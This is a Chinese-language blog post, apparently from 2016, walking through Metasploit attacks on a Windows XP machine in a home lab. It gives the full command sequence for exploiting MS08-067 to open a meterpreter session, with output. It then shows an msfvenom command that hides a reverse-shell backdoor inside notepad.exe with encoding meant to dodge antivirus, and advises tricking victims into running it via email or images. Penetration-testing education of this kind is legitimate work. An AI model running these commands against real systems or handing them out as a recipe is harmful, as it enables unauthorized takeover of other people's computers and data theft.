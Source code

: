 ```yaml
---
layout: post
title: 演示使用Metasploit入侵Windows
---
```


我使用Kali Linux（192.168.0.112）；在同一局域网内有一台运行Windows XP（192.168.0.108）的测试电脑。

使用漏洞入侵windows xp sp3。

启动msfconsole：

{% highlight shell %}
# msfconsole
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 15-24-25.png)

选择一个漏洞：

{% highlight shell %}
msf > search platform: windows xp sp3 
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-17-46.png)

exploit/windows/smb/ms08_067_netapi是08年发现的漏洞，等级Great。

查看某个漏洞的详细信息。包含使用方法、支持的平台等等，非常有帮助：

{% highlight shell %}
msf > info exploit/windows/smb/ms08_067_netapi
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 17-24-32.png)

依次执行如下命令：

{% highlight shell %}
msf > use exploit/windows/smb/ms08_067_netapi
> set payload windows/meterpreter/bind_tcp
> set RHOST 192.168.0.108  (设置目标主机IP地址)
> exploit
{% endhighlight %}

如果目标主机有这个漏洞的话，你就可以控制它了；如果没有，尝试使用其他漏洞。

```
[*] Started bind handler
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP SP3 - Service Pack 3 - lang:Chinese
[*] Selected Target: Windows XP SP3 Chinese (AlwaysOn NK)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (751104 bytes) to 192.168.0.108
[*] Meterpreter session 1 opened (192.168.0.1:41614 -> 192.168.0.108:4444) at 2016-04-15 17:29:32

meterpreter >
```

现在你就可以控制目标主机了，截屏、录音、视频、下载文件、杀进程等等；使用help查看可以执行的命令。

****

## 演示使用后门程序侵入Windows

原理：在Kali Linux上生成后门程序，然后把它发送给受害者，欺骗受害者运行（使用邮件、图片等等）。难点是需要过杀毒软件和防火墙。

生成后门程序：

我把后门程序隐藏到记事本程序中：notepad.exe

查看Kali Linux的IP：ifconfig（192.168.0.112）

创建后门程序，my_backdoor.exe：

{% highlight shell %}
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=4445 -x NOTEPAD.EXE -e x86/jmp_call_additive -i 4 -k -f exe > my_backdoor.exe
{% endhighlight %}

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 18-24-42.png)

上面命令使用加密试图躲过杀毒软件，但是，不要期望它可以生效。使用man msfvenom查看帮助。

把它发送到Windows系统，并运行；如果不能运行换用其他加密方式。

启动msfconsole：

{% highlight shell %}
# msfconsole
{% endhighlight %}

```
use exploit/multi/handler

set LHOST 192.168.0.112
set LPORT 4445
set payload windows/meterpreter/reverse_tcp
show options
exploit
```

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-01-13.png)

OK，入侵成功。

![msfconsole]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-15 19-08-43.png)

[Metasploit的基本使用](http://topspeedsnail.com/kali-linux-metasploit-base-use/)
